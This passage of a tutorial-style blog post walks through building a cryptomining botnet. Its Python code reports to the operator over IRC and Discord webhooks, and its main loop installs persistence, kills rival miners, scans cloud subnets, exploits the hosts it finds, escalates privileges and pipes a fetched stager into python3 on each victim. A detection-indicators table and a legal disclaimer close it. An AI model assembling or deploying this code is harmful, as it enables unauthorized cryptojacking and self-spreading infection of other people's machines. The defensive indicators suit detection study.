The `WORKER` field (the part after the `.` in the username) is how the operator
tracks which bot is contributing what hashrate on the pool dashboard. Each bot gets
a unique worker name -- typically derived from the hostname or a random ID assigned
at infection time.

### Reporting via IRC (and Discord)

The bot reports its status and hashrate back to the operator periodically. IRC is the
traditional channel for this -- it requires no infrastructure beyond a public IRC
server, the protocol is simple enough to implement with a raw socket, and IRC traffic
on port 6667 used to blend in with legitimate traffic.

```python
# irc_report.py
import socket
import time


IRC_HOST    = "irc.libera.chat"
IRC_PORT    = 6667
IRC_NICK    = "sysupd8"
IRC_CHANNEL = "#status"


def irc_connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IRC_HOST, IRC_PORT))
    s.settimeout(10)
    s.send(f"NICK {IRC_NICK}\r\n".encode())
    s.send(f"USER {IRC_NICK} 0 * :bot\r\n".encode())
    # wait for MOTD / 001 welcome
    time.sleep(3)
    s.send(f"JOIN {IRC_CHANNEL}\r\n".encode())
    return s


def irc_report(message, conn=None):
    """Post a message to the operator channel.

    Opens a fresh connection each time to keep the bot stateless.
    A real implementation would hold the connection open and handle PINGs.
    """
    close_after = conn is None
    if conn is None:
        conn = irc_connect()
    conn.send(f"PRIVMSG {IRC_CHANNEL} :{message}\r\n".encode())
    if close_after:
        conn.close()
```

Discord webhooks have largely replaced IRC in newer operations -- they're three lines,
require no infrastructure, and the traffic looks identical to normal Discord HTTPS:

```python
# discord_report.py (brief alternative)
import requests

WEBHOOK_URL = "https://discord.com/api/webhooks/YOUR_WEBHOOK_ID/YOUR_WEBHOOK_TOKEN"


def discord_report(message):
    requests.post(WEBHOOK_URL, json={"content": message})
```

The tradeoff is that Discord can (and does) terminate webhook URLs reported for abuse,
so IRC gives the operator more control at the cost of slightly more setup.

### Full scenario bot -- miner_bot.py

Putting it all together: this is the full main loop that ties every component above
into a single script. The exploit step is stubbed, but every other part is functional.

```python
# miner_bot.py
import os
import random
import sys
import time

# -- imports from the modules above (collapsed here for readability) --
# from spread_scan import scan_subnet, pick_random_cloud_subnet
# from exploit    import exploit, try_privesc, ExploitError
# from irc_report import irc_report


BOT_ID       = os.urandom(4).hex()        # unique ID assigned at infection time
SCAN_INTERVAL = 600                        # seconds between spread attempts
REPORT_INTERVAL = 300                      # seconds between hashrate reports


def main():
    install_persistence()
    kill_competing_miners(os.getpid())

    miner = start_miner()
    irc_report(f"[{BOT_ID}] online -- miner pid {miner.pid}")

    last_scan   = 0
    last_report = 0

    while True:
        now = time.time()

        # periodic spread scan
        if now - last_scan >= SCAN_INTERVAL:
            subnet = pick_random_cloud_subnet()
            hits = scan_subnet(subnet)
            for ip, ports in hits:
                for port in ports:
                    try:
                        run_cmd = exploit(ip, port)
                        # if we got a shell, try to escalate and then install
                        # the stager on the new host
                        try_privesc(run_cmd)
                        # fetch and execute stager on the remote host via run_cmd
                        run_cmd(
                            "curl -s http://127.0.0.1:8000/stager.py | python3"
                        )
                        irc_report(f"[{BOT_ID}] new bot: {ip}:{port}")
                        break  # one successful exploit per host is enough
                    except (NotImplementedError, Exception):
                        pass
            last_scan = now

        # periodic hashrate report
        if now - last_report >= REPORT_INTERVAL:
            # xmrig exposes a JSON API on localhost:18088 when --http-enabled is set
            # here we just report that we're alive; a real bot would parse the API
            irc_report(f"[{BOT_ID}] alive -- uptime {int(now - last_report)}s")
            last_report = now

        time.sleep(10)


if __name__ == "__main__":
    main()
```

### Detection indicators

From a defender's standpoint this is what to look for on a suspected host and on
the network:

| Indicator | Where to look |
|-----------|--------------|
| xmrig or unknown high-CPU process | `ps aux`, `top`, `htop` |
| Outbound TCP to port 4444 (mining pool) | `ss -tnp`, firewall egress logs |
| Outbound TCP to port 6667 (IRC) | `ss -tnp`, firewall egress logs |
| Outbound HTTPS to `discord.com` from a server | Firewall egress logs, unusual for most servers |
| New or unfamiliar cron entries | `crontab -l` for all users, `/etc/cron.d/` |
| New systemd user units | `systemctl --user list-units --all` |
| Unknown files in `~/Library/LaunchAgents/` | `ls -la ~/Library/LaunchAgents/` |
| Mass outbound TCP SYNs to port 22, 2375, 6379 | Network flow logs, IDS alerts |
| Processes named after system services with unusual parent PIDs | `ps auxf` (forest view) |
| `/tmp` or `/dev/shm` executables | `ls -la /tmp /dev/shm` |

The last two are particularly reliable: real system daemons don't spawn from a Python
interpreter, and legitimate software doesn't execute binaries out of `/tmp`.

---

## What's missing from this implementation (intentionally)

This is a minimal educational demo. Real botnets add layers this post doesn't cover:

- **Encryption** -- all traffic here is plaintext. Real C2 traffic uses TLS or custom
  obfuscated protocols.
- **Authentication** -- any process that knows the port can connect as an operator or
  register as a bot. A real C2 uses a shared secret or certificate.
- **Evasion** -- real bots disguise their traffic (HTTP headers, domain fronting, sleeping
  randomly to avoid beaconing detection).
- **Resilience** -- a single C2 server is a single point of failure. Real operations use
  multiple C2s, redirectors, or P2P meshes.
- **Bot propagation** -- getting the bot binary onto a machine in the first place is a
  completely separate problem involving exploit delivery, phishing, or physical access.

Understanding what's missing is as important as understanding what's here -- these are the
gaps defenders look to close and the gaps attackers work to exploit.

---

## Disclaimer

This post is strictly educational. The code demonstrates C2 architecture concepts for
learning and research purposes. Deploying this -- or anything derived from it -- against
systems you do not own is illegal under the Computer Fraud and Abuse Act (US), the Computer
Misuse Act (UK), and equivalent laws in most countries. The author takes no responsibility
for misuse.
